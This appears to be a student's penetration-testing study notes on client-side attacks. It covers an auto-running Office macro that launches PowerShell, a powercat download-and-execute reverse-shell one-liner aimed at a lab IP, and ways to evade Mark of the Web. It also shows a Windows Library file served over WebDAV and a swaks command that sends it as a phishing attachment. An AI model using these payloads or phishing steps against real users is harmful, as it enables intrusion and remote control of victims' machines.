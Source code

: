 ```yaml
---
layout: blank
---
```


### Information Gathering
- **Metadata**
	- Examining metadata of company-created PDFs can be a good source of information
- theHarvester - searches for emails given a domain -d
- **Client Fingerprinting**
	- Canarytokens - tool that can fingerprint a computer from a link
		- This token grabs browser info, IP address, and OS info

### Attacking MS Office
- **MS Office Attack**
	- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
	- Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
	- Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- **MS Office Macros**
	- To make macros: View -> Macros
	- Basic macro code that opens powershell:
```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```
- Powercat
	- Creates reverse shells, but detected by defender
	- Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
		- This is just grabbing a hosted powershell script
		- Powercat: 
	- Can be passed to the macro by encoding it in chunks of 50 base64 characters:
		- `Dim Str as String`
		- `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
		- `Str = Str + {base64}"`
		- `CreateObject("Wscript.Shell").Run Str`

### Abusing Windows Library Files
- Windows library files are less well-known and can be equally effective
- Executing .Library-ms file into executing .lnk file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`